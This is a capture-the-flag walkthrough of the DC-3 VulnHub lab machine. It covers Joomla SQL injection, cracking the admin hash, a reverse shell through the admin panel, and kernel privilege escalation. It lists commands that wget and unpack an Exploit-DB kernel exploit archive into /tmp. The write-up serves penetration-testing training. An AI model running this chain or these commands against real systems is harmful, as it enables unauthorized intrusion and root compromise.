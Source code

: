 # DC-3 VulnHub Walkthrough

## Nmap Scan

Starting with our **nmap** scan, we found only HTTP open, and after some investigation, we discovered it was running **Joomla! CMS**. Interesting!

![Nmap Scan - Joomla CMS](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img1.png)

## Directory Enumeration

After some directory enumeration, I found the **Joomla! version** in the `README.txt` file. Sometimes this file contains valuable information!

![README.txt](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img2.png)

## Exploiting Joomla!

Next, I searched for known exploits or vulnerabilities for this version of Joomla! I found an **SQL injection** vulnerability. I used a Python script to exploit it (you could also use **sqlmap** for this), and I was able to extract the **admin hash**. I cracked the hash using **John the Ripper**.

![Admin Hash](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img3.png)

## Joomla! Admin Access & Reverse Shell

After cracking the admin hash, I logged into Joomla! and searched for entry points to upload a **reverse shell**. I successfully injected my reverse shell and gained a reverse shell on the system.

![Joomla Admin](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img4.png)
![Reverse Shell Setup](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img5.png)
![Getting Reverse Shell](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img6.png)
![Reverse Shell Obtained](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img7.png)

## Privilege Escalation

Initially, there was only one flag in the root directory mention in the website. I started my enumeration using **LinPEAS** and found that the system was running a vulnerable kernel version.

![LinPEAS Output - Vulnerable Kernel](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img8.png)

I researched the kernel vulnerability and found an exploit in **Exploit-DB**. The following commands were used to exploit the kernel and gain root privileges.

### Commands Used:
1. `cd /tmp`
2. `wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip`
3. `unzip 39772.zip`
4. `cd 39772`
5. `tar -xf exploit.tar`
6. `cd ebpf_mapfd_doubleput_exploit`
7. `ls`

After running the exploit, we successfully obtained a root shell.

![Root Shell Obtained](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img9.png)
![Root Shell - Final Flag](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img10.png)


- **Author**: Sagar Sehrawat  


